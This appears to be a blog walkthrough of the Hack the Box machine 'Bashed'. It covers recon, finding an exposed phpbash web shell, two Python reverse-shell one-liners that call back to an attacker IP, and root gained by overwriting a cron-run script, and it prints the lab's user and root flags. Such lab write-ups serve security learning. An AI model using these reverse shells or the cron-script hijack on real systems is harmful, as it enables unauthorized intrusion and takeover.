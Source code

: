 ```yaml
---
title: Bashed - Hack the Box
date: 2024-10-13 12:37:45 -0400
categories: [Hack the Box]
tags: [Walkthrough]
image: /assets/Bashed.png
---
```

![Image](/assets/Bashed.png)

Bashed is an easy machine on the HTB platform. Attackers must utilize their knowledge of web enumeration, scripting, and processes/permissions to achieve root access. There is quite a bit to be gained from diving into this machine, so lets start with our nmap scan.

### Reconnaissance

```
┌──(root㉿kali)-[/home/li0t]
└─# nmap -sV -sC --open -p- 10.10.10.68
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 08:45 EDT
Nmap scan report for 10.10.10.68
Host is up (0.12s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.42 seconds

```

Simple scan here, as the only port available to is port `80`. At the time, I'd no familiarity with other batch scan tools like `autorecon` and `nmapAutomator`. However, luckily this was the intended vector for the machine. It is always important to thoroughly enumerate these scans for everything. Write down each open port and what services are running on them.

### Enumeration

Seeing as the website is the only vector we have access to, we can be confident and aggressive in our approach.

 ![Image](/assets/Screenshot 2024-09-06 at 8.51.26 AM.png) 

The landing page offers us some information about `phpbash` as a tool, and we can do our due diligence to find out that it's essentially a web shell. Given the name of this box, I'd assume we were looking for a way to access a session hidden away in the directories of the server. We can use a directory-busting tool to enumerate further and we can also do so recursively should we need to pry further. I want to note, I used the `subdomain` wordlist here, but the `dirbuster 2.3 Medium` works as well.

![Image](/assets/Screenshot 2024-09-06 at 8.52.13 AM.png)

### Initial Access

It takes a while to know what to look for in terms of uncommon or vulnerable configurations in terms of web directories. There are some rabbit-holes indeed. Keep in mind, though, I've mentioned in another writeup that things like `/dev/` are always of interest, and that's exactly what we get here.

![Image](/assets/Screenshot 2024-09-07 at 8.27.20 AM.png)

We can see two files, but we're only interested in the second as it provides us with the aforementioned web shell.

![Image](/assets/Screenshot 2024-09-07 at 8.27.55 AM.png)

While it's great to get an initial foothold into the system, it's also important to acknowledge the limitations of an environment like this. We can query a bit with commands like `whoami` and `sysinfo`, but we'd like to get a stable shell with functionality as soon as we can. We can start our listener `rlwrap nc -nlvp 443` to have it catch our call-back shell. Which call-back you use is very preferential and takes trial and error, and in this case, a python script from
http://revshells.com did the trick.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4321));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![Image](/assets/Screenshot 2024-09-14 at 11.23.21 AM.png)

Now that we've caught our shell, we can do ourselves a great favor by looking to stabilize. We can check which python version is installed with `which python`. In this case, we've got `python` instead of `python3`:

`TARGET: python -c 'import pty; pty.spawn("/bin/bash")'`
`TARGET: BACKGROUND THE PROCESS WITH ^Z`
`HOST: stty raw -echo;fg`
`TARGET: export TERM="xterm"`

Now, we can `cd` our way around to find the flag, usually within a users `/Desktop` directory.

`USER: b400f51178e32772ec99c792dd8b3465`

### Privilege Escalation

In order to get a sense of what we've got access to and what we do not, `sudo -l` and `ps -aux` are critical.

![Image](/assets/Screenshot 2024-09-14 at 11.34.28 AM.png)

Here, we can see that we've got unrestricted access to commands as scriptmanager. We'll need to switch users in order to make that happen. `sudo` has a tag where you care able to switch users with `-u`, and we can specify which user and the environment we need to be spawned in `/bin/bash`

`sudo -u scriptmanager /bin/bash`

Once switched over, we can mosey around looking for ways to move vertically. Given the name of our user, `scripts` is an interesting directory that requires a look.

![Image](/assets/Screenshot 2024-09-14 at 11.43.24 AM.png)

We can see the test script `test.py`, and it looks like it's being called every few minutes or so. All it does is write "Testing 123" to a file called `test.txt`. We assume a cronjob is calling it, given the periodical nature of its function. We can overwrite the file with a call-back shell to another listener. `rlwrap nc -nlvp 4444`

Overwrite the function with the script:

```
echo -e "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")" > test.py
```

After a few minutes, we'll get a call-back on our listener

![Image](/assets/Screenshot 2024-09-14 at 12.07.58 PM.png)

 `ROOT:9aeb0d2bbee15d2405ee1a0cd24a9a5b`

#linux #easy #manual 
